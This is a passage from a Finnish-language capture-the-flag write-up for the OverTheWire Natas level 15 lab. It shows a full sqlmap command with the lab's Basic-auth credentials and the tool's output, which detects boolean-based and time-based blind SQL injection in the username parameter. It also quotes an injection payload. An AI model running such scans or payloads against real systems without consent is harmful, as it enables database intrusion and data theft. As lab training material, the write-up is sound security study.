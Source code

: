 
Tässä viimeisessä (alempi tulos) kohdassa ajattelin keskeyttää, että laittaa "e" niin ainakin kertoi jotakin väliaikaista tulosta. Ainakin SQL injektiosta löysi POST parametrin koskeva haavoittuvuutta **Boolean-based** ja **time-based blind** injektiolle just tämä osuus: `username=natas16" AND 1660=1660--`

```
┌──(kali㉿kali)-[~]
└─$ sqlmap -u "http://natas15.natas.labs.overthewire.org/index.php?debug" \
--auth-type Basic \
--string "This user exists" \
--auth-cred natas15:SdqIqBsFcz3yotlNYErZSZwblkm0lrvx \
--data "username=natas16" \
--level=5 --risk=3
        ___
       __H__                                                                                                                   
 ___ ___[(]_____ ___ ___  {1.8.5#stable}                                                                                       
|_ -| . [(]     | .'| . |                                                                                                      
|___|_  ["]_|_|_|__,|  _|                                                                                                      
      |_|V...       |_|   https://sqlmap.org                                                                                   

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 11:30:26 /2025-05-18/

[11:30:27] [INFO] testing connection to the target URL
[11:30:27] [INFO] testing if the provided string is within the target URL page content
[11:30:27] [INFO] testing if POST parameter 'username' is dynamic
[11:30:27] [INFO] POST parameter 'username' appears to be dynamic
[11:30:27] [WARNING] heuristic (basic) test shows that POST parameter 'username' might not be injectable
[11:30:27] [INFO] heuristic (XSS) test shows that POST parameter 'username' might be vulnerable to cross-site scripting (XSS) attacks


[11:30:40] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[11:30:51] [INFO] POST parameter 'username' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
[11:30:51] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[11:30:51] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[11:30:51] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[11:30:51] [INFO] target URL appears to have 2 columns in query
do you want to (re)try to find proper UNION column types with fuzzy test? [y/N] y
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] y
[11:30:58] [WARNING] if UNION based SQL injection is not detected, please consider forcing the back-end DBMS (e.g. '--dbms=mysql')                                                                                                                            
[11:30:59] [INFO] target URL appears to be UNION injectable with 2 columns
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] y
[11:31:05] [INFO] testing 'Generic UNION query (80) - 21 to 40 columns'
[11:31:07] [INFO] testing 'Generic UNION query (80) - 41 to 60 columns'
[11:31:08] [INFO] testing 'Generic UNION query (80) - 61 to 80 columns'
[11:31:09] [INFO] testing 'Generic UNION query (80) - 81 to 100 columns'
```
